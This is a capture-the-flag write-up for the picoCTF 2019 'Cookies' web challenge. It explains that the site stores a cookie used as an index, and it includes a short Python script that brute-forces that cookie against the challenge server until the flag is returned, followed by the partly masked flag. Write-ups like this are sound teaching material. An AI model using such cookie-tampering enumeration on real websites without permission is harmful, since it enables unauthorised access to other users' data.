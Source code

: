 # Cookies

Tags: picoCTF 2019, Web Exploitation

| Author    | Point     |
| --------- | --------- |
| MADSTACKS | 40 points |

## Description

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/

## Solve

When we look at the web page, there is an input form.

![](<./images/CleanShot 2024-04-15 at 18.11.37.png>)

I tried entering the appropriate values.

![](<./images/CleanShot 2024-04-15 at 18.20.28.png>)

-1 was saved in cookie. Changing this to 1 made it a special cookie, but I didn't get the flag.

![](<./images/CleanShot 2024-04-15 at 18.23.43-3175267.png>)

Since it is assumed that it is an index, I wrote a script that uses brute force.

```python
import requests

url = "http://mercury.picoctf.net:29649/check"

s = requests.Session()

for i in range(1000):
    cookies = {"name": f"{i}"}
    r = s.get(url, cookies=cookies)
    if "picoCTF" in r.text:
        print(r.text)
        break
```

As a result, I got a flag.

```bash
$ python3 solver.py

[snip]
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_********}</code></p>
        </div>
[snip]
```

## Flag

```
picoCTF{3v3ry1_l0v3s_c00k135_********}
```
